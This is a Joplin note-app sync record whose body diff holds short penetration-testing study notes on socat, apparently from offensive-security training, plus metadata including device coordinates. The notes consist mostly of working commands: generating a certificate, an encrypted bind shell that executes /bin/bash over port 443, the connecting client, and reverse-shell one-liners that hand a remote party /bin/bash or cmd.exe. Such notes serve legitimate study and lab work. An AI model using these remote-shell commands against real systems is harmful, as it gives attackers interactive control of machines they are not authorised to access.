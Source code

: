 id: c8f718499e3d4cfd8b3c16a16b45cf57
parent_id: 
item_type: 1
item_id: 0d70f2c0c0de487c985390d1315593a8
item_updated_time: 1642143670048
title_diff: "[{\"diffs\":[[1,\"Socat\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":5}]"
body_diff: "[{\"diffs\":[[1,\"<ins>SOCAT</ins>\\\n\\\n1\\\\. Encrypted Bind Shell - Kali opens as listener\\\n\\\nOn Kali 1st:\\\n\\\nopenssl req -newkey rsa:2048 -nodes -keyout bind\\\\_shell.key -x509 -days 362 -out bind\\\\_shell.crt\\\n\\\ncat bind\\\\_shell.key bind\\\\_shell.crt > bind_shell.pem\\\n\\\nsudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash\\\n\\\nThen on the other machine:\\\n\\\nsocat - OPENSSL:10.11.0.4:443,verify=0\\\n\\\nInstall Openssl, or use powershell (Not tested)\\\n\\\nPS C:\\\\\\\\>New-SelfSignedCertificate -Type Custom -Subject \\\"Offsec\\\" -KeyExportPolicy Exportable -KeyUsage DigitalSignature -KeyAlgorithm RSA -KeyLength 2048 -CertStoreLocation \\\"Cert:\\\\\\\\CurrentUser\\\\\\\\My\\\"\\\n\\\nFor reverse shell, fork STDOUT for Kali, and the machine has to change to socat OPENSSL:IP:443,verify=0 exec:cmd.exe,pipes\\\n\\\n2\\\\. Reverse Shell -\\\n\\\nWindows Client - socat -d -d TCP4-LISTEN:443 STDOUT\\\n\\\nAttacker - socat TCP4:10.11.0.22:443 EXEC:/bin/bash\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":880}]"
metadata_diff: {"new":{"id":"0d70f2c0c0de487c985390d1315593a8","parent_id":"b8fe3751a1b24ee7ad3f067e0a5bfdcd","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-14T07:02:53.742Z
created_time: 2022-01-14T07:02:53.742Z
type_: 13